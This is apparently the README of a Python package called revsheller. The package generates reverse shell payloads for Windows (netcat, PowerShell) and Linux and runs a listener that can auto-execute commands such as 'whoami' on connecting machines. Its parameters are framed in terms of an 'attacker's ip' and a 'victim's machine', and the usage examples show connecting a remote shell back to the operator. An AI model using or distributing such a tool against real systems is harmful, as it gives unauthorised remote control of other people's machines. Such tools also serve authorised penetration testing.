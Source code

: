 # revsheller - pip revsheller package

Easy to generate reverse shells and build a server.

Note: This package is only for Linux or unix like system.

# How to install

Take it easy, just a pip.

# How to use

## To create reverse shells

```
>>> import revsheller as rev
>>> rev.generate(os, mode, ip, port=4444, sh=None, nc_path=None)
```

os - windows / linux

mode - nc:netcat / sh:shell / powershell

ip - attacker's ip address

port - attacker's port

sh - shell of victim's machine, not required

nc_path - netcat path on victim's machine, not required

### Example for windows

```
>>> rev.generate('windows', 'powershell', '127.0.0.1', 4444)
```

### Example for linux / unix

```
>>> rev.generate('linux', 'sh', '127.0.0.1', 4444, sh='/bin/bash')
```

## To wait a connection

```
>>> revsheller.wait_for_connection(4444)
listening on [any] 4444 ...
```

To run a command automaticaly when get response

```
>>> revsheller.wait_for_connection(4444, 'whoami')
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54364
ayato
```

